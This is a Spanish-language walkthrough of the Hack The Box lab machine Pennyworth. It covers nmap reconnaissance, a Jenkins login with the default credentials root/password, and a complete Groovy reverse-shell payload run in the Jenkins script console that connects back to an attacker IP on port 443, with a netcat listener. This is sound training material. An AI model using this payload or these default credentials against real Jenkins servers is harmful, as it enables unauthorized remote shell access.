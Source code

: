 ```yaml
---
title: Writeup pennyworth - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - pennyworth
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina pennyworth en Hack The Box.
keywords:
  - writeup pennyworth
  - hack the box pennyworth
  - resolución máquina pennyworth
  - pennyworth hack the box
  - htb pennyworth
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Pennyworth)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=vC5kp8ODqls))
- 🧠 **Explicación resumida**: 

--------

#veryeasy #linux #nmap #ping #groovy #reverseshell

----
# Guided Mode

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`8080` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39 que vimos tambien en nmap

----
# Intrusion al panel de logeo

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Despues de intentar los usuarios y contraseñas mas comunes, logramos dar con 
```
Usuario: root
Contraseña: password
```

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]
Ahora vamos a ir a la parte de consola y vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]

--------
# Notas

Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.


--------
# Creditos
Writeup Oficial HackTheBox


